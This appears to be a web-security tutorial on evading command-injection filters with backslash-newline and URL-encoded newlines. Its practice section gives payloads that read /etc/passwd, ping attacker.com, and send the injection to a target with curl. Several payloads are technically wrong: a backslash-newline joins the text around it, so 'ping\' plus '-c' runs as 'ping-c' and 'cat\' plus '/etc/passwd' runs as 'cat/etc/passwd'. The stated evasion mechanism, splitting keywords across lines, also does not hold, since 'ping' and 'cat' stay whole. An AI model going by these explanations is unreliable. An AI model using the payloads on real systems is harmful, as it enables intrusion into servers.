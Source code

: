 ```yaml
---
title: Bypass Command Filters with Backslash and Newline
description: Learn how to exploit backslash and newline sequences to bypass command
  filters in web apps, enhancing command injection techniques.
keywords:
- backslash newline escape
- command injection
- filter bypass
- web application security
- URL-encoded newline
- line continuation
- escape sequence exploitation
---
```


# Bypass With Backslash Newline

## Context

The goal of this article is to demonstrate how an attacker can exploit command injection vulnerabilities in web applications by using backslash-newline escape sequences. This technique is particularly effective for bypassing filters that aim to prevent injection by blocking certain keywords or commands. A fundamental understanding of newline characters, escape sequences, URL encoding, and command injection techniques is assumed.

## Theory

### Backslash-Newline as a Line Continuation Mechanism

In many Unix-based shells, a backslash followed by a newline character serves as a line continuation mechanism. This means that the shell treats the combination of a backslash and a newline as if they do not exist, effectively spanning the command over multiple lines but executing it as a single logical line. This behavior can be exploited in command injection scenarios to bypass filtering mechanisms.

Shell filters that aim to block dangerous keywords (such as 'cat', 'ping', or specific options) may fail to detect malicious input if these payloads are split between lines using a backslash-newline sequence.

### Escape Sequence Exploitation in Command Injection

Attackers can insert a backslash followed by a newline character into their payloads to evade static keyword or character filters during command injection attacks. This approach takes advantage of filters that process input character-by-character or on a single line. By splitting keywords or operators across lines, the attacker bypasses detection and enables command execution.

### URL-Encoded Newline and Slash-Newline Injection

In a web-based context, newline characters can be represented using URL encoding, often as '%0a' (line feed) or '%0d%0a' (carriage return followed by a line feed). This encoding allows attackers to remotely inject backslash-newline sequences in HTTP requests. By leveraging these encoded newlines, an attacker can bypass input validation that would otherwise filter out newline characters.

## Practice

### Bypassing Filters with Backslash-Newline in Command Injection

- Identify a vulnerable web parameter that is susceptible to command injection but employs filtering to block basic command keywords. Focus on parameters where direct injection attempts are blocked due to the presence of filters.

- Use the following payload to evade filters:
  
  ```bash
  ping\
  -c 1 attacker.com
  ```

  This command splits 'ping -c' so that the '-c' option is on a new line, evading detection by simple keyword filters.

- Another example payload:
  
  ```bash
  cat\
  /etc/passwd
  ```

  By splitting the command with a backslash-newline, you can bypass filters preventing the execution of 'cat /etc/passwd'.

- For web-based injection points, consider using URL-encoded newline characters:
  
  ```http
  ls\%0a-la
  ```

  This uses a URL-encoded newline to bypass filters in applications processing HTTP parameters.

- Execute the command with a tool such as curl:

  ```bash
  curl 'http://target/app?input=cat\%0a/etc/passwd'
  ```

  This HTTP request sends the encoded payload to the target application, aiming to trigger the vulnerability and achieve command execution.

The above techniques highlight how backslash-newline escape sequences can be effectively used to bypass command injection filters and execute commands on a vulnerable server.

## Tools

- **curl**
- **Burp Suite**